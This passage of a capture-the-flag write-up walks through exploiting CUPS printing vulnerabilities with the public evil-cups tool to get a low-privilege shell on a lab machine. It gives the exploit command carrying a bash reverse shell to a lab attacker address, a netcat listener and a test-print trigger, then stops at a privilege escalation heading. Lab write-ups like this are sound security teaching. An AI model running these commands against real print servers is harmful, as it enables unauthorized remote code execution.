 
### Exploiting the CUPS vulnerabilities to get a low privilege shell: {#exploiting-the-cups-vulnerabilities-to-get-a-low-privilege-shell}


#### Preparing the CUPS Exploit: {#preparing-the-cups-exploit}

-   **I will be using ippsec's cups exploit for this attack**:
    -   <https://github.com/ippsec/evil-cups>

-   **Preparing Exploit**:
    -   `git clone https://github.com/IppSec/evil-cups.git`
    -   `cd evil-cups`
-   **Prepare Python Venv**:
    -   `python3 -m venv evilCups`
    -   `source evilCups/bin/activate`
    -   +Note+: I use venv's as it allows me to install different deps without causing conflicts with my base python installation.
-   **Install Requirements**:
    -   `pip3 install -r requirements.txt`


#### Running the CUPS Exploit: {#running-the-cups-exploit}

1.  **Running the exploit to send the payload**:
    -   `python3 evilcups.py [AttackIP] [VictimIP] "bash -c 'bash -i >& /dev/tcp/[AttackIP]/[AttackPort] 0>&1'"`
    -   `python3 evilcups.py 10.10.14.58 $box "bash -c 'bash -i >& /dev/tcp/10.10.14.58/443 0>&1'"`
    -   {{< figure src="/ox-hugo/2024-10-22-095213_.png" >}}
    -   Now the payload is sent we can move onto the next stage of triggering the exploit:

2.  **Start our listener**:
    -   `rlwrap -cAr nc -lnvp 443`

3.  **Trigger the exploit**:
    -   Navigating the CUPS web-console we can see our malicious printer is listed:
        -   {{< figure src="/ox-hugo/2024-10-22-090825_.png" >}}

    -   **Printing our test page to trigger the exploit**:
        -   In order to activate the exploit and trigger the malicious PPD directives we need to either wait for a print job to be sent to the fake printer or we can trigger one ourselves using the "`Test Print`" functionality.
        -   {{< figure src="/ox-hugo/2024-10-22-090909_.png" >}}

4.  **Low Priv Shell Caught**:
    -   {{< figure src="/ox-hugo/2024-10-22-095152_.png" >}}
    -   {{< figure src="/ox-hugo/2024-10-22-095738_.png" >}}

5.  **Get our User Flag**:
    -   {{< figure src="/ox-hugo/2024-10-22-095757_.png" >}}


## 3. Privilege Escalation: {#3-dot-privilege-escalation}

